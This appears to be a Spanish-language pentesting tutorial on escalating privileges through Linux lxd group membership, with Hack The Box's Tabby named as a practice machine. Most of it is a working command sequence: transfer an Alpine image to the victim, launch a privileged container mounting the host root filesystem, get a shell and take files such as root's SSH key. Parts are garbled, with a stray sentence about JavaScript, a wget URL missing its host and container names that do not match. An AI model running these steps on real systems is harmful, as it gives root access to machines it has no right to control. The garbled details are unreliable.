Linux Containers (LXC) es una tecnología de virtualización a nivel de sistema operativo que permite ejecutar múltiples sistemas Linux aislados (contenedores) en un solo host. LXD es un sistema de gestión de contenedores basado en LXC, que proporciona una interfaz más fácil de usar y características adicionales para administrar contenedores.
Se trata de una tecnología pionera que surgió antes de los frameworks modernos y de JavaScript, diseñada para añadir funcionalidades dinámicas a las páginas web estáticas.
¿Cómo identifico si me puedo aprovechar de LXD?
Para identificar si se puede explotar LXD dentro de un servidor, podemos usar el comando id para verificar si pertenecemos al grupo lxd
Si el comando id muestra que el usuario actual pertenece al grupo lxd, entonces es posible que se pueda aprovechar LXD para escalar privilegios en el sistema.
Explotando LXD para escalar privilegios
Si el usuario actual pertenece al grupo lxd, se pueden seguir los siguientes pasos para aprovechar LXD y escalar privilegios:
Descarga de imágenes
Primero dentro de la máquina atacante, vamos a descargar una imagen de contenedor que vamos a usar como base, en este caso, una imagen de alpine:
Luego de eso ingresamos a la carpeta clonada y poredemos a hacer un build

Transferencia de imagen a la máquina victima
Una vez creada la imagen, se puede transferir a la máquina víctima utilizando un servidor web de python:
python3 -m http.server 5555
Luego, en la máquina víctima, se puede descargar la imagen utilizando wget:
wget http://:5555/lxd-alpine-v3.13-x86_64.tar.gz 
Importar la imagen a LXD
Una vez movida la imagen a la computadora vícitma vamos procederr a inciar el serviciio de lxd y le vamos a indicar que no a todas las opciones:
En caso de que más adelante se tenga un fallo creación por el storage pool vamos a volver a este paso para crearlo, ya que puede que actualmente no exista ninguno configurado
lxd init
Luego de eso, se puede importar la imagen descargada a LXD utilizando el siguiente comando:
lxc image import lxd-alpine-v3.13-x86_64.tar.gz --alias alpine
Una vez la importación ha terminado, podmeos ver el mensaje de confirmación y podemos confirmarlo también listando las imágenes:
lxc image list
Crear y ejecutar un contenedor con privilegios
Ahoraa podemos proceder a hacer el contenedor privilegiado y montar el sistema de archivos dentro del contenedor
lxc launch alpine privesc -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root
recursive=true


Una vez hecho esto, podemos iniciar el contenedor con el siguiente comando:
lxc start mycontainer
Si esto llegara a fallar por un error en storage pool, de que no existe, solo debemos de activaar nuevamente el sercivio y crear el storage pool y dejar todo lo demás en no a como hicimos antes

Una vez todo esté listo, ya podemos entrar al contenedor con el siguiente comando:
lxc exec mycontainer /bin/shComo el contenedor no tenías bash es que me ha fallado a mi con el uso de bash

Una vez dentro del contenedor, podemos navegar al directorio donde montamos el sistema de archivos y podemos intentar extraer los archivos sensibles o inclusive el id_rsa de root para acceder al servidor víctima por SSH
Diagrama de flujo del ataque

C:\ Máquinas las cuales se puede explotar este servicio:
- Tabby (Hack The Box)